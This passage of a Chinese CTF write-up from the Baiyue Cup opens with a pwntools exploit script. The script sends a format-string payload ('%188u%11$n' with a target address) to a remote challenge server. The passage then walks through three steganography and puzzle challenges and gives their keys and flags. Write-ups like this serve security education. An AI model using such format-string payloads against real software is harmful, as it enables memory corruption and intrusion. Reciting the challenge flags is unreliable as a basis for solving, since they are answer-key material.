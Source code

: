 本题不需要测量溢出长度，但是需要测量泄露的地址中的内容是从哪里开始是我们需要的：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181203151335858.png)所以输入的开始部分是从第11个开始

#### EXP
```python
from pwn import *
#context.log_level = 'debug'

r = remote('117.50.13.182',33865)
#r = process('./format')

payload1 = p32(0x0804A048)+'%188u%11$n'
#print payload1 
r.sendline(payload1)
print r.recv()

r.interactive()
```

## MISC
### 马男波杰克
<kbd>题目描述</kbd>  马男说了要学会百度
![在这里插入图片描述](https://img-blog.csdnimg.cn/201812052303501.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NXRUVUMFNXQVQ=,size_16,color_FFFFFF,t_70)
<kbd>解题经过</kbd>

直接使用在线的工具即可
> http://www.atool.org/steganography.php
> 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181205230209477.png)
### 签到题
<kbd>题目描述</kbd>  欢迎参加百越杯，首先我们得放轻松，活动一下脑经，比如做做数独怎么样？flag格式：flag{全部数字排成一行（横向81位）的小写md5值}
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181205233115612.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NXRUVUMFNXQVQ=,size_16,color_FFFFFF,t_70)
<kbd>解题经过</kbd>

偷个懒，使用在线数独求解器求解数独
>http://www.llang.net/sudoku/calsudoku.html


![在这里插入图片描述](https://img-blog.csdnimg.cn/20181205232629481.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NXRUVUMFNXQVQ=,size_16,color_FFFFFF,t_70)
flag{cee3860fb3f4a52e615fa8aaf3c91f2b}

### 血小板天下第一可爱

<kbd>题目描述</kbd>  听过LSB隐写吗？
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181205233846110.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1NXRUVUMFNXQVQ=,size_16,color_FFFFFF,t_70)![在这里插入图片描述](https://img-blog.csdnimg.cn/20181205233856236.png)

<kbd>解题经过</kbd>

首先补全残缺的二维码，得到`key: Lsb_1s_gr3at`
之后到如下地址下载解密还原脚本
>python lsb.py extract 1.png 1.txt Lsb_1s_gr3at
>
再用`python lsb.py extract 1.png flag.txt Lsb_1s_gr3at`把flag还原出来：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20181206005551902.png)
